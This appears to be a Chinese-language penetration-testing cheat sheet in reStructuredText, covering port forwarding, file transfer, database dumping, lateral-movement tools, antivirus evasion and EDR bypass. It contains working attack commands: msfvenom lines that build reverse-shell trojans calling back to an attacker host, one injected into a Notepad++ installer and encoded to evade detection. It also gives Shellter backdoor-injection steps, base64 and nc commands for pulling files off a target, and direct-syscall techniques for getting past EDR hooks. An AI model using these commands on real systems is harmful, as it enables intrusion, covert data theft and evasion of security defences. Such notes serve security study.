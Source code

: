 综合技巧
========================================

临时服务器
----------------------------------------
- python方式
	+ ``python2 - m SimpleHTTPServer``
	+ ``python3 -m http.server 8888``
- php方式
	+ ``php -S 127.0.0.2:8181 -t /www /www/app.php``

端口转发
----------------------------------------
- nc
	- 端口扫描
		+ 默认TCP：``nc -z -v -n 172.31.100.7 21-25``
	- 端口转发
		+ 将本地9000端口数据转发到192.168.100.2/8000：``mkfifo tmp/fifo|cat /tmp/fifo | nc 192.168.100.2 8000 | nc -l 9000 > /tmp/fifo`` 
		+ 访问：``nc -n 192.168.1.102 9000`` 
- socat
	- 显示本地文件
		+ ``socat - /etc/sysctl.conf`` 
	- 监听本地端口
		+ ``socat TCP-LISTEN:12345 -`` 
	- UNIX DOMAIN域套接字转成TCP SOCKET
		+ ``socat TCP-LISTEN:12345,reuseaddr,fork UNIX-CONNECT:/data/deCOREIDPS/unix.domain`` 
	- 端口转发
		+ ``对于所有15000端口的TCP访问，一律转发到 server.wesnoth.org:15000 上`` 
		+ ``socat -d -d -lf /var/log/socat.log TCP4-LISTEN:15000,reuseaddr,fork,su=nobody TCP4:server.wesnoth.org:15000`` 
		+ ``tcp：nohup socat TCP4-LISTEN:2333,reuseaddr,fork TCP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 
		+ ``udp：nohup socat UDP4-LISTEN:2333,reuseaddr,fork UDP4:233.233.233.233:6666 >> /root/socat.log 2>&1 &`` 

传输数据
----------------------------------------
- nc
	+ 连续传输两个数据包：``cat poc1.dat | sed s'/.$//' |nc -u 10.0.0.3 1023 -w 2 | cat poc2.dat | sed s'/.$//' |nc -u 10.0.0.3 1023 -w 2``
	+ dat文件存储数据包内容
	+ ``sed s'/.$//'`` 为去掉最后一个字节0a
	+ -u参数表示使用udp协议

文件传输
----------------------------------------
- nc
	- 文件传输
		+ 将B机器上的file.txt传输到A机器上
		+ ``A机器：nc -lvp 1567 > file.txt``
		+ ``B机器：nc 172.31.100.7 1567 < file.txt``
	- 目录传输
		+ ``tar -cvf – dir_name | nc -l 1567``
		+ ``nc -n 172.31.100.7 1567 | tar -xvf -``
	- 加密传输
		+ ``nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt``
		+ ``mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567``
- python
	- 目标机器转base64
		+ ``目标机器有python：python -c 'print(__import__("base64").b64encode(open("secret.zip", "rb").read()))'``
	- 个人机器还原
		+ ``cat - > zip.txt``
		+ ``输入拿到的base64串：UEsDBBQACQAIAEZ/CE8bl，输入完成按回车``
		+ ``^C即ctrl+c``
		+ ``还原文件：base64 -d zip.txt > secret.zip``

脱裤
----------------------------------------
- sqlcmd
	+ dump数据:``sqlcmd -S 127.0.0.1,1433 -U username123 -P pasword123 -d datebase123 -Q"BACKUP DATABASE database123 to disk='c:\www\myweb\wap\userlz.bak'"``
- sqlmap

远程连接 && 执行程序
----------------------------------------
- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc

netstat
-----------------------------------------

|netstat|

- Local ：访问端口的方式，0.0.0.0 是对外开放端口，说明80端口外面可以访问；127.0.0.1 说明只能对本机访问，外面访问不了此端口；
- Address：端口
- Foregin Address：对外开放，一般都为0.0.0.0：* 
- Program name：此端口是那个程序在用，程序挂载此端口
- 重点说明 0.0.0.0 是对外开放，通过服务域名、ip可以访问的端口
- 127.0.0.1 只能对本机 localhost访问，也是保护此端口安全性
- ::: 这三个: 的前两个”::“，是“0:0:0:0:0:0:0:0”的缩写，相当于IPv6的“0.0.0.0”，就是本机的所有IPv6地址，第三个:是IP和端口的分隔符

免杀
-----------------------------------------
- 核心技术：分离执行和加密混淆等技术
- 免杀加载器
    + venom/msfvenom
        - venom生成其实是直接调用的msfvenom
        - 支持生成多平台payload，比如android、ios、linux/unix、office等等
        - 列出所有可用编码
            ``msfvemon -l encoders``
        - 裸奔木马
            ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1234 -f exe > /root/test.exe``
        - 免杀木马
            ``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.20.2 LPORT=3333 -e x86/shikata_ga_nai -x npp.7.8.6.Installer.exe -i 12 -f exe -o /root/npp1.exe``

        |msfvemon1|
    + Shellter动态注入工具
        - 下载地址：https://www.shellterproject.com/download/
        - Choose Operation Mode - Auto/Manual (A/M/H)
            选择模式: 自动模式自动注入后门，M高级模式，H帮助
        - PE Target：
            注入的程序.
        - Enable Stealth Mode?
            是否启用隐身模式
        - Use a listed payload or custom? (L/C/H)
            使用攻击模块列表或者自定义
        - Select payload by index:
            选择payload序号
        - SET LHOST
            设置反弹回来的IP 本机
        - SET LPORT
            设置接收反弹的端口
    + veil
- 防御EDR检测
    + 地狱之门
        - 原理：避免在用户层被EDR hook的敏感函数检测到敏感行为，利用从ntdll中读取到的系统调用号进行系统直接调用来绕过敏感API函数的hook。
        - 相关项目：https://github.com/am0nsec/HellsGate
    + 光环之门
        - 原理：
        - 相关项目：https://github.com/trickster0/TartarusGate
        - 相关资料：https://blog.vincss.net/2020/03/re011-unpack-crypter-cua-malware-netwire-bang-x64dbg.html
    + SSN系统调用地址排序
        - 原理：ntdll.dll中的特性就是所有的Zw函数是根据函数地址的大小来进行排序的，所以我们就只需要遍历所有Zw函数，记录其函数名和函数地址，最后将其按照函数地址升序排列后，每个函数的调用号就是其对应的排列顺序的索引号。

提权
-----------------------------------------
- PEASS-ng
	 + 新一代特权升级脚本套件，适用于 Windows 和 Linux/Unix* 以及 MacOS 的权限提升工具
	 + 项目地址: ``https://github.com/carlospolop/PEASS-ng``


.. |netstat| image:: ../images/netstat.png
.. |msfvemon1| image:: ../images/msfvenom1.png
